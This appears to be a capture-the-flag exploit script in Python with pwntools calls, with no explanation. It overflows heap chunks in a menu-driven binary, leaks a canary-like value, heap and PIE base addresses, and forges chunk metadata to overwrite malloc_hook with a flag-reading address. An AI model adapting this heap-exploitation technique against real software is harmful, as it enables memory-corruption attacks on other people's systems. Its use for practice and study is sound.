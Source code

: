 ```python

add(0xf8)
add(0xf8)
add(0xf8)
fre(1)
edi(0,b'a'*0x101)
sho(0)
p.recv(0x100)
rand = u64(p.recv(8))-0x61
print(hex(rand))
payload = b'a'*0x110
edi(0,payload)
sho(0)
p.recv(0x110)
heap2 = u64(p.recv(6).ljust(8,b'\0'))
print(hex(heap2))
payload = b'a'*0x118
edi(0,payload)
sho(0)
p.recv(0x118)
piebase = u64(p.recv(6).ljust(8,b'\0'))-0x3060
mallochook = piebase+0x31e0
getflag = piebase-0x200000+0xead
payload = b'a'*0xf8+p64(0)+p64(rand)+p64(0x100aaaaaaaa)+p64(heap2)
edi(0,payload)
fre(2)
fre(0)

add(0x8)
add(0x8)
add(0x8)
edi(0,b'AAAAAAAA')
edi(1,b'BBBBBBBB')
edi(2,b'CCCCCCCC')
fre(1)
edi(0,b'a'*0x11)
sho(0)
p.recv(0x10)
rand=u64(p.recv(8))-0x61
print(hex(rand))
payload = b'a'*0x20
edi(0,payload)
sho(0)
p.recv(0x20)
# p.recv()
heap6=u64(p.recv(6).ljust(8,b'\0'))
print(hex(heap2))

payload = b'a'*0x10 + p64(rand) + p64(0x10aaaaaaaa) + p64(heap2) + p64(mallochook-0x40)
edi(0,payload)
add(0x8)
add(0x8)
edi(3,p64(0)+p64(0)+p64(0)+p64(getflag))
# gdb.attach(p)
add(0x100)
add(0x100)
```
